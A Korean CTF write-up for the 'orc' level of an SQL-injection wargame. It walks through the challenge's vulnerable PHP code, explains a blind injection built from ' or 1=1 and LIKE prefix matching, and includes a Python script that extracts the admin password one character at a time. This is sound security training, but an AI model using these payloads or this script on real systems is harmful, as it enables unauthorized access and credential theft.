



# Level 4 - Orc

## 문제



## 문제 의도

- php 소스를 읽을 줄 아는가?
- Blind SQL을 수행할 수 있는가? (사실 풀기 전에 이걸 Blind라 부르는 것도 몰랐음)

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  /* addslashes() 함수는 인자로 들어간 문자열에 있는 특수 기호들, 특히 SQL문에
     영향을 줄수 있는 Single Quote, Double Quote, Backslash, NULL Byte같은 문자
     앞에 Slash를 추가해서 문자열로 인식될 수 있도록 문자열을 만드는 함수이다.
     여기선 GET으로 받은 pw에 슬래시를 추가한다. */
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  /* 이 코드는 슬래시 처리를 한 쿼리의 결과값을 저장한 result 변수에 pw 필드가
     존재하는지, 그리고 GET으로 받은 pw와 DB에 저장된 pw 값이 같은 지 비교한다.
     만약 pw가 맞다면 solve() 함수를 호출한다. */
  highlight_file(__FILE__);
?>
```

## 문제 풀이

12번째 라인 코드를 보면 문제를 통과하기 위해선 간단한 SQL 인젝션이 아닌 DB에 저장되어 있는 비밀번호를 알아내야 한다. 이 문제는 **LIKE** 문을 이용하면 된다. 먼저 pw 필드에 **‘ or 1=1**을 넣어서 코드에 있는 Where 조건문을 무시한다. 그 다음 LIKE 문을 사용해서 pw 필드를 하나씩 맞춰 가면 된다. LIKE문을 사용하면 인자로 주어진 패턴을 비교할 수 있는데, 만약 pw like '28%'을 쿼리 뒤에 넣게 되면 레코드의 pw 필드가 28로 시작하는 레코드를 조회할수 있게 된다.
이 문제에서 LIKE문을 사용할 수 있는 이유는 8번째 라인 코드 때문인데, LIKE 문에 충족하는 레코드가 존재하지 않는다면 아무것도 뜨지 않기 때문에 PW를 비교하는 LIKE 문의 참 거짓을 알아 낼수 있게 된다.



그렇게 LIKE 문을 이용해서 한자리씩 눈물을 흘려가며 찾을 결과 Admin의 pw가 295d5844임을 알아 낼수 있게 됐다. charset이 다행히 크지 않아서 빠르게 비밀번호를 찾을수 있었던 것 같다.

### 코오딩을 하자 코오딩

코딩을 하면 이러한 노가다를 할 필요가 없다! 내가 왜 이런짓을 했을까

```python
import urllib.request

admin = "admin"
password = ""

for pw_length in range(1, 9):
    for pw in range(48, 123):
        candidate = password + chr(pw)
        url1 = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php"
        url2 = "?pw=' or 1=1 and pw like \'" + candidate + "%'%23"
        res = urllib.request.Request(url1+url2)
        res.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:50.0) Gecko/20100101 Firefox/50.0")
        res.add_header(
            "Cookie", "PHPSESSID=??????????????????????"
        )
        re = urllib.request.urlopen(res).read()

        if str(re).find("<h2>Hello admin</h2>") != -1:
            password = password + chr(pw)
            print(password)
            break
print("PW = ", password)
```

다음 파이썬 코드를 실행하면 admin의 pw 필드의 값을 한자리씩 뽑아준다!

